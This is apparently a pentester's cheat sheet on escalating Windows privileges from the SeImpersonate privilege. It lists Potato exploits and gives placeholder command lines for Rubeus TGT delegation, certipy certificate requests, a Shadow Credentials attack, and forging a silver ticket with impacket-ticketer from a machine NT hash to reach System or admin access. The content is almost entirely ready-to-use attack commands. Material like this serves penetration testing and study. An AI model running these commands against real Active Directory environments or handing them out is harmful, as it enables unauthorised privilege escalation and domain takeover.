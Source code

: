 # SeImpersonate Privilege

### Potato exploits:

#### 1) RoguePotato

#### 2) Juicy Potato / Lovely Potato

#### 3) PrintSpoofer

#### 4) CertPotato

### Commands for 4):

    .\Rubeus.exe tgtdeleg /nowrap (TGT pass the ticket)

    certipy req -k -ca CA -template Machine -target DC (On Linux)

    certipy auth -pfx PFX_FILE

## OR do Shadow Credentials attack

    certipy shadow auto -u 'MACHINE$'@DOMAIN -k account 'MACHINE$'

## Get the Machine NT Hash and then:

    impacket-ticketer -nthash HASH -domain-sid DOMAIN_SID -domain DOMAIN -spn cifs/DC TARGET_USER (This can give System/Admin access)
